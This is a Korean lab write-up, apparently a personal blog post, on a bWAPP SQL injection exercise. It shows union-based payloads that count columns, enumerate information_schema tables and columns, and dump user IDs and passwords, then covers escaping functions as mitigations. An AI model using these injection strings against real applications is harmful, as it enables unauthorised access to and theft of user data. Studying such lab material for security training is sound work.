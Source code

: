 ```yaml
---
x`title: "[bWAPP] 1. Injection - SQL Injection - (Login Form/Hero)"

---
```


<br>

## Injection

공격자가 신뢰할 수 없는 입력을 프로그램에 주입하도록 하는 공격.

<br>

<br>

## SQL Injection

응용 프로그램 보안 상의 허점을 의도적으로 이용해, 

임의의 SQL문을 주입하여 악의적인 SQL문을 실행하게 함으로써

DB를 비정상적으로 조작하는 코드 인젝션의 대표적인 공격.

이로인해 공격자가 DB에 저장되어 있는 다른 사용자의 개인 정보 등 허가되지 않은 정보에 접근하여,

데이터 변조 및 조작 가능.

<br>

<br>

## Object

개인정보를 탈취해보자

![image-20220316195556024](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220316195556024.png)

![image-20220316195630270](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220316195630270.png)

- 항상 참인 조건으로 삽입 공격
- `"select column from table where id=' " &id " ' " and  "password=' " &password " ' "` 으로 유추가능

<br>

### 컬럼 갯수

![image-20220316195916126](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220316195916126.png)

- ' union select all 1 # ~ 'union select all 1,2,3,4 # 까지 해본 결과
- 컬럼 갯수는 4개
- 그 중 쓰이는 컬럼은 2번과 4번

<br>

### DB

![image-20220316200102096](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220316200102096.png)

`' union select all 1,database(),3,4 #`

- DB는 BWAPP

<br>

### 테이블 조회

![image-20220316200400317](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220316200400317.png)

`' union select all 1,table_name,3,4 from information_schema.tables where table_schema='bWAPP' limit 3,1#`

- limit 활용해서 0번부터 쭉 조회 3번이 users 테이블

<br>

### 컬럼 조회

![image-20220316200507757](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220316200507757.png)

`' union select all 1,column_name,3,4 from information_schema.columns where table_name='users'#`

- 이 또한 limit활용해서 컬럼들 조회

<br>

### 컬럼 속성

![image-20220316200629848](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220316200629848.png)

`' union select all 1,id,3,password from users#`

- 성공적으로 개인취약점 정보 확인 가능

<br>

<br>

## 대응방안

### Linux

![image-20220318002544545](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220318002544545.png)

![image-20220318002653266](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220318002653266.png)

- vi 편집기로 sqli_3.php 소스코드를 열어준다.
- level 1 : sqli_check_1 함수 사용
- level 2 : sqli_check_2 함수 사용

<br>

### functions_external.php

![image-20220317235926576](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220317235926576.png)

- addslashes : 특수 문자(',",/) 앞에 역슬래시를 삽입하여 특수문자 기능을 문자로 이스케이프하는 함수
  - 인코딩된 태그나 스크립트가 들어오면 바로 디코딩되기 때문에 보안 허점 발생
- mysql_real_escape_string : PHP에서 SQL Injection 공격 등을 방어하기 위하여 특수 문자열을 이스케이프 하기 위한 함수
  - `\x00, \n, \r, \, ', ", \x1a`와 같은 문자 앞에 `\`(역슬레시)를 붙여서 해당 문자가 실제 작동하지 않도록 이스케이프 해준다.
  - addslashes 보다 처리할 수 있는 문자들이 더 많음
